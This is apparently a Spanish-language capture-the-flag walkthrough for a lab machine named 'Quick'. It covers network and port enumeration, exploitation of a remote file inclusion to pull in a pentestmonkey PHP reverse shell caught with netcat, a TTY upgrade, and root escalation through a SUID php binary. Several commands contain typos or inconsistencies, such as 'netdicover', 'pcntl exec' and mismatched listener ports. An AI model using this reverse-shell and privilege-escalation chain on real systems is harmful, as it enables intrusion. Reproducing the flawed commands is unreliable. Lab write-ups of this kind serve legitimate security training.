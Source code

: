## MAQUINA QUICK

Usamos la netdiscover para ver las maquinas conectadas en nuestra red

```console

>netdicover -i eth0 -r 192.x.x.x/24

```

Una vez que tengamos la ip, con nmap vamos a enumerar los puertos y servicios de la misma.

```console

>nmap -p- -open -sV -sC "ip" -oN TARGET

PORT
80/tcp open http

"STATE SERVICE VERSION
Apache httpd 2.4.41 ((Ubuntu))
l_http-server-header: Apache/2.4.41 (Ubuntu)
l_http-title: Quick Automative
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)"
```

Como tenemos el puerto 80 disponbile ingresamos a la pagina web.

Usamos nikto para ver si hay alguna vulnerabilidad en la web.

```console

>nikto -h "ip"

/index.php?page=http://blog.cirt.net/rfiinc.txt ?: Remote File Inclusion (RFI)
```

Tenemos una posible vuln. en la web, se trata de un RFI (remote-file-inclusion)

Aca lo que vamos a hacer es subir una RV (revershell.php) de pentestmokey a la maquina victima creando un servidor python.

```console
python3 -m http.server
```

Seguido nos ponemos en escucha con netcat al puerto que colocamos en la RV.
```console
nc -nlvp 1234
```

Ahora realizamos lo siguiente: 

Vamos a la URL de la pagina y colocamos nuestra ip + la revershell pentest monkey (http://$IP/revershell)(sin la extension).

Bien si todo salio excelente somos el usuarios www-data, ahora realizamos el tratamiento de la tty:

```console
$ script /dev/null -c bash
Script started, file is /dev/null

www-data@host:/$ ^Z
zsh: suspended  nc -nlvp 443

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

Luego vemos que permisos SUID tenemos con el siguiente formato.

```console
find / -user root -perm /4000 2>/dev/null
```
Y como resultado tenemos un archivo:

```console
/usr/bin/php7.0
```

En gtfobins encontramos la manera de escalar priv.
```console
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl exec('/bin/sh', ['-p']);"

```

Y listo somo User root
